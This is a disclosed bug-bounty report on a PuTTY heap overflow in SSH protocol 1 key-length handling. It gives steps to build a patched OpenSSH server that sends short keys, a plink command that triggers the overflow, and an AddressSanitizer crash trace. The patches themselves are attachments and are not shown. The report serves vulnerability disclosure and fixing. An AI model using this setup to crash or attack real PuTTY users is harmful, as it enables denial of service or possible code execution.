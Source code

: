 # Heap overflow happen when receiving short length key from ssh server using ssh protocol 1

## Report Details
- **Report ID**: 630462
- **URL**: https://hackerone.com/reports/630462
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-06-27T06:55:18.258Z
- **Disclosed**: 2019-09-20T07:19:41.032Z

## Reporter
- **Username**: hey2baby
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: putty_h1c

## Vulnerability Information
## Summary:
There's no check in `ssh1_login_process_queue` function when read `servkey` and `hostkey` length from packet which may cause heap overflow. 
Remote code execution may be possible.

## Steps To Reproduce:
  1. To test this issue, I downloaded openssl6.8 to compile to craft packets, using below command to download openssl6.8p1 source code
`# wget https://openbsd.hk/pub/OpenBSD/OpenSSH/portable/openssh-6.8p1.tar.gz`
 
  2. After download openssl6.8p1 source code, patch `ssh-keygen.c` and `sshd.c` according with `ssh-keygen.c.diff` and `sshd.c.diff` attached accordingly.

  3. Compile patched openssl6.8p1 to get `sshd` which used to act as ssh1 server and `ssh-keygen` to get host key file, using command like below
`# ./ssh-keygen -t rsa1 -b 248 -f /tmp/ssh_host_rsa1_key`
`# /root/openssh-6.8p1/sshd -p 39000 -D -E aaaa -f sshd_config -b 248`
`sshd_config` file should add protocol 1 support and specify host key file path.

  4. Download latest putty source code and compile it using address sanitize flag like below:
`# ./configure CFLAGS="-g -O0 -fsanitize=address" CPPFLAGS="-g -O0 -fsanitize=address" LDFLGAGS="-fsanitize=address"`

  5. After above 4 steps, start plink to connect like below
`# ./plink  -1 -P 39000 root@localhost`

After execution, you will see heap overflow happen immediately like below
 
>=================================================================
==24509== ERROR: AddressSanitizer: heap-buffer-overflow on address 0x60060003b96f at pc 0x45c488 bp 0x7ffc93bd3550 sp 0x7ffc93bd3548
WRITE of size 1 at 0x60060003b96f thread T0
    #0 0x45c487 (/root/putty-0.71/plink+0x45c487)
    #1 0x4ceb78 (/root/putty-0.71/plink+0x4ceb78)
    #2 0x4d23a6 (/root/putty-0.71/plink+0x4d23a6)
    #3 0x4051d5 (/root/putty-0.71/plink+0x4051d5)
    #4 0x40562e (/root/putty-0.71/plink+0x40562e)
    #5 0x53d25a (/root/putty-0.71/plink+0x53d25a)
    #6 0x7f402cfe0c04 (/usr/lib64/libc-2.17.so+0x21c04)
    #7 0x4037f8 (/root/putty-0.71/plink+0x4037f8)
0x60060003b96f is located 0 bytes to the right of 31-byte region [0x60060003b950,0x60060003b96f)
allocated by thread T0 here:
    #0 0x7f402d59b4ba (/usr/lib64/libasan.so.0+0x154ba)
    #1 0x4218b1 (/root/putty-0.71/plink+0x4218b1)
    #2 0x45bf1d (/root/putty-0.71/plink+0x45bf1d)
    #3 0x4ceb78 (/root/putty-0.71/plink+0x4ceb78)
    #4 0x4d23a6 (/root/putty-0.71/plink+0x4d23a6)
    #5 0x4051d5 (/root/putty-0.71/plink+0x4051d5)
    #6 0x40562e (/root/putty-0.71/plink+0x40562e)
    #7 0x53d25a (/root/putty-0.71/plink+0x53d25a)
    #8 0x7f402cfe0c04 (/usr/lib64/libc-2.17.so+0x21c04)
Shadow bytes around the buggy address:
  0x0c013ffff6d0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c013ffff6e0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c013ffff6f0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c013ffff700: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c013ffff710: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
=>0x0c013ffff720: fa fa fa fa fd fd fd fa fa fa 00 00 00[07]fa fa
  0x0c013ffff730: 00 00 00 fa fa fa 00 00 00 fa fa fa 00 00 00 fa
  0x0c013ffff740: fa fa 00 00 00 fa fa fa fd fd fd fa fa fa 00 00
  0x0c013ffff750: 00 fa fa fa fd fd fd fa fa fa fd fd fd fa fa fa
  0x0c013ffff760: 00 00 00 00 fa fa 00 00 00 fa fa fa 00 00 00 fa
  0x0c013ffff770: fa fa 00 00 00 fa fa fa 00 00 00 fa fa fa 00 00
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07
  Heap left redzone:     fa
  Heap righ redzone:     fb
  Freed Heap region:     fd
  Stack left redzone:    f1
  Stack mid redzone:     f2
  Stack right redzone:   f3
  Stack partial redzone: f4
  Stack after return:    f5
  Stack use after scope: f8
  Global redzone:        f9
  Global init order:     f6
  Poisoned by user:      f7
  ASan internal:         fe
==24509== ABORTING

  * [attachment / reference]
attachments contain `sshd.c.diff`, `ssh-keygen.c.diff` and `sshd_config`

## Impact

putty client crash or even remote code execution

## Attachments
- ssh-keygen.c.diff
- sshd.c.diff
- sshd_config

